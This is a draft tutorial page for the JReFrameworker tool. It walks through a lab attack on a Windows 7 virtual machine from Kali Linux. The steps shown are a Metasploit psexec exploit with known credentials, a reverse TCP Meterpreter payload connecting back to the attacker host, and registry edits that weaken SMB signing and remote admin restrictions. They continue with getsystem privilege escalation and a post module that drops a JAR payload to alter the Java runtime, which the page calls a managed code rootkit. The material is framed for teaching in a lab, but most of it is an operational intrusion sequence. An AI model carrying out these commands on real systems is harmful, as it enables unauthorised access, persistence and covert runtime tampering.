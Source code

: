 ```yaml
---
layout: post
title: Payload Deployment
draft: true
---
```


This tutorial demonstrates how to modify a victim machine's runtime using a JReFrameworker module.

If you haven't already, you should complete the first two tutorials ([Hello World](./hello-world) and [Hidden File](./hidden-file)) to become familiar with the basics of JReFrameworker.

<a name="Setup"></a>

## Lab Setup

You will also need to setup a small laboratory test environment that includes the following.

1. A victim machine (this tutorial uses a fresh install of Windows 7 SP1 x64 English edition in a virtual machine, but any OS capable of running Java will work).
2. An attacker machine with [Metasploit](https://www.metasploit.com/) installed (this tutorial uses a [Kali Linux virtual machine](https://www.offensive-security.com/kali-linux-vmware-virtualbox-image-download/) version 2016.2).
3. An installation of JReFrameworker (this tutorial uses the host machine, but any OS that can run [Eclipse](https://eclipse.org/) with JReFrameworker installed will work).

For this tutorial we will be using [VMWare](https://www.vmware.com) virtual machines, but [Virtualbox](https://www.virtualbox.org) is a good free alternative to VMWare.

Our victim machine was created with an Administrator account named `Victim` and password `badpass`. Log into the machine. Since Java is not installed by default, we will need to install the runtime environment. You can download the standard edition of Java directly from [Oracle](http://www.oracle.com/technetwork/java/javase/downloads/index.html) or by using the [ninite.com](https://ninite.com/) installer. 

After installing Java, we set out virtual machines to `Host only` mode with our victim at `192.168.115.129` and our attacker at `192.168.115.128`. Double check that you know the IP addresses of each machine and that each machine can ping the other. If Kali cannot ping the Windows virtual machine, you may need to disable or specifically allow connections through the Windows firewall.

<p>
  <center>
    <a href="../images/payload-deployment/windows-network-zoom.png" data-lightbox="windows-network" data-title="Windows Network">
      <img src="../images/payload-deployment/windows-network.png" alt="Windows Victim Network" />
      <figcaption>Windows Victim Network (click to zoom)</figcaption>
    </a>
  </center>
</p>

<p>
  <center>
    <a href="../images/payload-deployment/kali-network-zoom.png" data-lightbox="kali-network" data-title="Kali Network">
      <img src="../images/payload-deployment/kali-network.png" alt="Kali Attacker Network" />
      <figcaption>Kali Attacker Network (click to zoom)</figcaption>
    </a>
  </center>
</p>

The next section continues the lab setup towards getting an active [Metasploit Meterpreter](https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/) session on the victim machine. If your lab setup is different and you have a working exploit already, skip to the [Post Exploitation](#PostExploitation) section below.

<a name="Exploitation"></a>

## Exploitation

Since we already know the credentials for the victim machine, we will be using Metasploit's [psexec (pass the hash) module](https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/). In Kali, open the Metasploit framework console by typing `msfconsole` in the terminal. 

<p>
  <center>
    <a href="../images/payload-deployment/msfconsole-zoom.png" data-lightbox="msfconsole" data-title="Open msfconsole">
      <img src="../images/payload-deployment/msfconsole.png" alt="Open msfconsole" />
      <figcaption>Open msfconsole (click to zoom)</figcaption>
    </a>
  </center>
</p>

Within the Metasploit framework console, load the psexec exploit module by typing `use exploit/windows/smb/psexec`.

<p>
  <center>
    <a href="../images/payload-deployment/load-exploit-zoom.png" data-lightbox="load-exploit" data-title="Load Exploit">
      <img src="../images/payload-deployment/load-exploit.png" alt="Load Exploit" />
      <figcaption>Load exploit (click to zoom)</figcaption>
    </a>
  </center>
</p>

Type `show options` to view the exploit configuration parameters.

<p>
  <center>
    <a href="../images/payload-deployment/exploit-options-zoom.png" data-lightbox="exploit-options" data-title="Exploit Options">
      <img src="../images/payload-deployment/exploit-options.png" alt="Exploit Options" />
      <figcaption>Exploit Options (click to zoom)</figcaption>
    </a>
  </center>
</p>

Set the remote host to be the IP address of the victim machine by typing `set RHOST 192.168.115.129`.

Set the username to authenticate as by typing `set SMBUser Victim`. Note that you may need to replace *Victim* with the Windows username you used to configure your virtual machine with during setup.

Set the password to authenticate with by typing `set SMBPass badpass`. Again you may need to replace *badpass* with the actual password you used during setup.

Finally let's configure a reverse TCP Meterpreter payload that will execute Meterpreter on the victim machine and connect back to our attacker machine with the active session. Configure the payload by typing `set PAYLOAD windows/meterpreter/reverse_tcp`.

Set the outbound Meterpreter connection address to be the local host (the IP address of the attacker machine) by typing `set LHOST 192.168.115.128`.

Set the outbound Meterpreter connection port to be port 443 (https) by typing `set LPORT 443`.

<p>
  <center>
    <a href="../images/payload-deployment/exploit-parameters-zoom.png" data-lightbox="exploit-parameters" data-title="Set Exploit Parameters">
      <img src="../images/payload-deployment/exploit-parameters.png" alt="Set Exploit Parameters" />
      <figcaption>Set Exploit Parameters (click to zoom)</figcaption>
    </a>
  </center>
</p>

Finally run the exploit by typing `exploit`.

If the exploit failed with error code `STATUS_ACCESS_DENIED (Command=117 WordCount=0)` you may need to edit a registry setting on the Window's victim. 

<p>
  <center>
    <a href="../images/payload-deployment/exploit-failure-zoom.png" data-lightbox="exploit-failure" data-title="Exploit Failure">
      <img src="../images/payload-deployment/exploit-failure.png" alt="Exploit Failure" />
      <figcaption>Exploit Failure (click to zoom)</figcaption>
    </a>
  </center>
</p>

Open Window's *regedit* tool.

<p>
  <center>
    <img src="../images/payload-deployment/regedit.png" alt="Open RegEdit" />
  </center>
</p>

Navigate to the registry key, **"HKEY\_LOCAL\_MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters"** on the target systems and setting the value of **"RequireSecuritySignature"** to **"0"**. Note that while some registry keys may be case sensitive, these keys do not appear to be case sensitive. This registry edit disables the group policy requirement that communications must be digitally signed. 

<p>
  <center>
    <a href="../images/payload-deployment/reg1-zoom.png" data-lightbox="reg-1" data-title="Registry Edit RequireSecuritySignature">
      <img src="../images/payload-deployment/reg1.png" alt="Registry Edit RequireSecuritySignature" />
      <figcaption>Registry Edit RequireSecuritySignature (click to zoom)</figcaption>
    </a>
  </center>
</p>

You may also need to add a new registry key under **"HKEY\_LOCAL\_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System"**. Setting  the key to be a DWORD (32-bit) named **"LocalAccountTokenFilterPolicy"** with a value of **"1"**. This edit allows local users to perform administrative actions.

<p>
  <center>
    <a href="../images/payload-deployment/reg2-zoom.png" data-lightbox="reg-2" data-title="Registry Edit LocalAccountTokenFilterPolicy">
      <img src="../images/payload-deployment/reg2.png" alt="Registry Edit LocalAccountTokenFilterPolicy" />
      <figcaption>Registry Edit LocalAccountTokenFilterPolicy (click to zoom)</figcaption>
    </a>
  </center>
</p>

After setting the registry keys, rerun the exploit in Kali. If you are still not successful, try restarting the Windows machine and double checking your exploit configuration parameters by typing `set` to view the current values. If the exploit was successful you will see that one new session was created. 

<p>
  <center>
    <a href="../images/payload-deployment/exploit-success-zoom.png" data-lightbox="exploit-success" data-title="Exploit Success">
      <img src="../images/payload-deployment/exploit-success.png" alt="Exploit Success" />
      <figcaption>Exploit Success (click to zoom)</figcaption>
    </a>
  </center>
</p>

If you are unfamiliar with Meterpreter some basic operations can be found [here](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/).

When you are done, type `background` to exit and background the Meterpreter session. Then type `back` to exit the exploit configuration menu.

<a name="PostExploitation"></a>

## Post Exploitation

Now that we have an active Meterpreter session on our victim machine we can use JReFrameworker to manipulate the runtime or install a managed code rootkit. First determine the active Meterpreter sessions that you have by typing `sessions -l` to list the current sessions.

Since most typical Java runtime installations are installed in a directory that requires root or Administrator privileges you may need to escalate your privileges depending on your current access level.  To begin interacting with the session of the victim machine, type `sessions -i 1` (replacing 1 with your desired session). Type `getsystem` to attempt standard privilege escalation techniques.

Once you have system level privileges (assuming you need them), type `background` to exit and background the Meterpreter session.

Next download a copy of the current [jreframeworker.rb](https://github.com/JReFrameworker/JReFrameworker/blob/master/metasploit/jreframeworker.rb) Metasploit module. Then run `mkdir -p ~/.msf4/modules/post/manage/java` to create a directory path for the custom module. Add the *jreframeworker.rb* module to the newly created directory. Note that the module must end with the Ruby *.rb* extension. Additional information on loading custom Metasploit modules can be found on the [Metasploit Wiki](https://github.com/rapid7/metasploit-framework/wiki/Loading-External-Modules).

At the root Metasploit console type `reload_all` to detect the newly added module.

Load the JReFrameworker post module by typing `use post/manage/java/jreframeworker`. Note that the module path may be different if you decided to change the directory path in the previous step.

Type `show options` to view the basic JReFrameworker module options. Type `show advanced options` to show additional module options.

Type `set PAYLOAD_DROPPER /root/Desktop/hello-world-dropper.jar` to set the JReFrameworker payload to the *hello-world-dropper.jar* module we exported from JReFrameworker earlier.

Type `set SESSION 1` to set the post module to run on the Meterpreter session 1. Note that your session number may be different. Use `sessions -l` to list the current sessions.

Type `run` to execute the post module.